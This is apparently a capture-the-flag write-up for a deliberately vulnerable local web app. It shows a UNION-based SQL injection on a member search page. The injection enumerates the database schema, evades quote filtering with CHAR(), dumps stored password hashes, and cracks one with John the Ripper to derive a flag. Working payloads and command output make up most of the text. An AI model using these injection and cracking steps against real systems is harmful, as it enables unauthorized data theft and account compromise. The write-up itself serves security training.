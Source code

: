 ## [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

On the [Members](http://localhost:8080/?page=member) page, there is an input field to search for members by ID. For example, with input `3`, we get:

```
ID: 3
First name: three
Surname : me
```

The first thing to try in any input field is an SQL injection.

Trying `'` as the input, we get the following output: `You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1`. This confirms that we are directly querying the database, without proper input validation.

Since the output has 2 fields, we can try an `UNION` statement such as `42 UNION SELECT table_name, table_type FROM information_schema.tables--`, which shows all the columns from all the tables:

```
ID: 42 UNION SELECT table_name, table_type FROM information_schema.tables--
First name: CHARACTER_SETS
Surname : SYSTEM VIEW

...

ID: 42 UNION SELECT table_name, table_type FROM information_schema.tables--
First name: CLIENT_STATISTICS
Surname : SYSTEM VIEW

...

ID: 42 UNION SELECT table_name, table_type FROM information_schema.tables--
First name: users
Surname : BASE TABLE
```

To get the columns from the table `users` only, we tried the following command: `42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users'`, which gives the following output: `You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'users\'' at line 1`. It looks like the server has very basic protection with quotes.

We can bypass it by creating the string with the SQL `CHAR` function: `42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)`. It works and we get the following columns:

```
ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : user_id

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : first_name

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : last_name

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : town

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : country

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : planet

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : Commentaire

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : countersign
```

We query all the columns, `Commentaire` and `countersign` seem to be the most interesting. `42 UNION SELECT Commentaire, countersign FROM users--` →

```
ID: 42 UNION SELECT Commentaire, countersign FROM users--
First name: Je pense, donc je suis
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9

ID: 42 UNION SELECT Commentaire, countersign FROM users--
First name: Aamu on iltaa viisaampi.
Surname : 60e9032c586fb422e2c16dee6286cf10

ID: 42 UNION SELECT Commentaire, countersign FROM users--
First name: Dublin is a city of stories and secrets.
Surname : e083b24a01c483437bcf4a9eea7c1b4d

ID: 42 UNION SELECT Commentaire, countersign FROM users--
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

We create a file in the format expected by John the Ripper: `user:5ff9d0165b4f92b14994e5c685cdce28`

and after using john the ripper :

```console
$ john --format=Raw-MD5 sql_injection_members/resources/countersign
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=20
Proceeding with single, rules:Single
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:00 DONE 1/3 (2025-05-24 14:42) 0g/s 49550p/s 49550c/s 49550C/s User1909..User1900
Proceeding with wordlist:/tmp/tmpmu9v917t/password.lst
Enabling duplicate candidate password suppressor
Disabling duplicate candidate password suppressor
FortyTwo         (user)
1g 0:00:00:28 DONE 2/3 (2025-05-24 14:42) 0.03455g/s 15335Kp/s 15335Kc/s 15335KC/s YankeE23..PitchEr1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Now we we lower case to: `fortytwo` and encode it using SHA256 as asked:

```console
$ echo -n fortytwo | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```

